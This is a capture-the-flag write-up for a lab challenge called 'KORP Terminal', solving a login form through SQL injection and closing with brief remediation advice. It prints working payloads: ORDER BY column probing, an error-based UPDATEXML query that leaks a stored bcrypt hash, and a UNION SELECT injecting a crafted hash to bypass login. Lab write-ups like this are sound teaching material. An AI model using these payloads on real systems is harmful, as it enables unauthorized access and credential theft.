# KORP Terminal
- difficulty: very easy
- vulnerabilities: sqli

## App Review
This app presents the user a terminal-styled form.  It has 2 fields username, and password.

## Code Review
Since the source code is not provided with this challenge, an analytical approach will be required to gain an understanding for how the backend logic works.  I will discuss this approach in further detail in the Attack setion of this README.

## Attack
1.  One of the first things I like to try, in the presence of a web form, is to check for any sql injection oppurtunity.  Do do this I use a single quote as the username and send the request.  In the response (shown below) I can see an SQL error message indicating that SQL is being used and my single quote has corrupted the SQL statement being used by the backend.
```
{"error":{"message":["1064","1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1","42000"],"type":"ProgrammingError"}}
```

2.  With this information I have to start trying to get an understanding for what the SQL query statement looks like.  Immediately, I suspect that it might be something like ```SELECT username, password from users where username=${username} and password=${password}```.  To try and add some confidence behind this theory I send another request with a username, A, and a single quote as the password.  This time, however, I get the reponse below which does not contain an SQL Error.  From this, I can deduce that the SQL statement might look something like ```SELECT username, password from users where username=${username}```.
```
{"message":"Invalid user or password"}
```

3.  To try and build confidence in this theory I decide to test the number of columns being returned from the query.  To do this, I send a request with the username ```A' order by 5-- -```.  I get the repose below which indicates there are less than 5 columns being returned with the original SQL query.  I keep doing this same test, decreasing 5 each time, until I get a response that does not contain an SQL error.  In this case, it happens when I try to ```order by 1```.  This means that there is only 1 column being returned with the main query.  From this test I can make a guess that the query is probably something like ```select password from users where username=${username}```.
```
{"error":{"message":["1054","1054 (42S22): Unknown column '5' in 'order clause'","42S22"],"type":"ProgrammingError"}}
```
4.  Since the app seems like it is querying for the users password, I can make a query that returns a password of my choosing and then compare it with the password that is provided in the POST request.  To do this, I send a request with the POST params ```username=XXXX' union select 'meow'-- -&password=meow```.  This time, however I get the response below which indicates that the password is probably hashed and the password I provided, 'meow', is not working nicely with that hashing algorithm.
```
{"error":{"message":["Invalid salt"],"type":"ValueError"}}
```
5.  Then next step it to try to determine what type of hash is being used.  Then I'll be able to craft a proper hash and apply a similar attack as the one in the previous step.  To do this, I use an error based attack to leak information about the db like table name and columns.  Then I use the same attack to query for a value in the users table.  More specifically, I sent a post request with this UPDATEXML() query: ```username=XXXX' AND UPDATEXML(1337,CONCAT('.','~',(SELECT password from users limit 1 offset 0),'~'),31337) -- -&password=f```.  The response, below, shows that the hash is a BCRYPT hash.
```
{"error":{"message":["1105","1105 (HY000): XPATH syntax error: '~$2b$12$OF1QqLVkMFUwJrl1J1YG9...'","HY000"],"type":"DatabaseError"}}
```
6.  I can now craft a BCRYPT hash to use for this attack.  In my case I created a hash of the word 'meow' and submitted via the POST params below.  The result is the flag for this challenge.
```
username=XXXX' union select '$2b$12$Cbc5Svi5RU4F4zMbi0r7ouPm/NqJZ4iswdT73Kw3hG.Lzt3iF5lo6'-- -&password=meow
```

## Remediation
- Prevent SQL errors from making it to the front end.
- Use parameterized queries.